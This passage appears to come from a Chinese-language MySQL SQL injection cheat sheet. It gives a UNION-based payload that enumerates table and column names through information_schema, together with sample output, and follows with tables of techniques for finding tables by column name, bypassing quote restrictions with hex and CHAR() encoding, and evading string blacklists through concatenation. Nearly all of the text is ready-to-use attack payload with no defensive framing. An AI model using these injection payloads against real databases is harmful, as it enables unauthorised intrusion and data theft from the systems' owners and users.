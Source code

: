 例子：

```
SELECT username FROM Users WHERE id = '-1' UNION SELECT MID(GROUP_CONCAT(0x3c62723e, 0x5461626c653a20, table_name, 0x3c62723e, 0x436f6c756d6e3a20, column_name ORDER BY (SELECT version FROM information_schema.tables) SEPARATOR 0x3c62723e),1,1024) FROM information_schema.columns; 
```

输出结果：

```
Table: talk_revisions
Column: revid

Table: talk_revisions
Column: userid

Table: talk_revisions
Column: user

Table: talk_projects
Column: priority 
```

#### 根据列名查询所在的表

|                       SELECT table_name FROM information_schema.columns WHERE column_name = 'username';                      |                       查询字段为 username 的表                      |
|                       SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';                      |                       查询字段中包含 user 的表                      |

####                   根据表查询包含的字段

|                       SELECT column_name FROM information_schema.columns WHERE table_name = 'Users';                      |                       查询 user 表中的字段                      |
|                       SELECT column_name FROM information_schema.columns WHERE table_name LIKE '%user%';                      |                       查询包含 user 字符串表中的字段                      |

####                   绕过引号限制

|                       SELECT * FROM Users WHERE username = 0x61646D696E                      |                       Hex 编码                      |
|                       SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)                      |                       利用 CHAR()函数                      |

####                   绕过字符串黑名单

|                       SELECT 'a' 'd' 'mi' 'n';                      |
|                       SELECT CONCAT('a', 'd', 'm', 'i', 'n');                      |
|                       SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');                      |
|                       SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');                      |

使用 CONCAT()时，任何个参数为 null，将返回 null， 推荐使用 CONCAT_WS() 。

CONCAT_WS() 函数第一个参数表示用哪个字符间隔所查询的结果。

